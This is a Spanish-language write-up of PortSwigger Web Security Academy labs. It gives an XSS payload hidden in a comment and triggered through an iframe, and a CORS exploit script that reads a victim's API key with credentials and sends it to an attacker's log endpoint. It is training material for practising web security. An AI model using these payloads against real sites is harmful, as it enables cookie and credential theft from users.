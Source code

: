 Para resolver el lab se debe realizar un comentario con el texto:

```
<form id=x tabindex=0 onfocus=alert(document.cookie)><input id=attributes>
```

Y después cargar en el exploit server:

```
<iframe src=https://id-del-lab.web-security-academy.net/post?postId=id-del-posteo onload="setTimeout(someArgument=>this.src=this.src+'#x',500)">
```

Cuando se carga el `iframe`, después de medio segundo (para que se cargue el comentario antes de ejecutarse el JS), se agrega `#x` al final de la URL, haciendo que se enfoque el elemento que tiene ese id (el `form` creado en el comentario). Por último el event handler `onfocus` hace que se ejecute la payload.

---

## [Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)

### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Al autenticarnos en este laboratorio e ir a la sección Account Details, vemos que se imprime el apikey. Yendo a burpsuite y analizando la petición y respuesta que se envían al entrar a esta sección, vemos que en el encabezado  de la respuesta Access-Control-Allow-Credentials se devuelve el dominio de nuestro lab. Volviendo a la request y mandándola al repeater de burpsuite, si manualmente colocamos un encabezado Origin disitinto, el encabezado Access-Control-Allow-Credentials de la respuesta devolverá el dominio del origin.

Para resolver este lab, copiamos la url de la sección Home, y le anexamos "accountDetails" (debido a que a esta url se hacen las peticiones que devuelve la apikey, se puede ver analizando el HTTP History de burpsuite), y la pegamos en el siguiente script.
Luego de pulsar el botón deliver exploit to victim, debemos ver las respuestas del servidor yendo a la sección Acces log. Una vez allí, buscamos "log?key", y lo que sigue será el apikey que debemos enviar.

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac0d1f601f36270f80786122008800b8.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
    var x = JSON.parse(this.responseText);
    location='/log?key=' + x.apikey;
};
```

### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
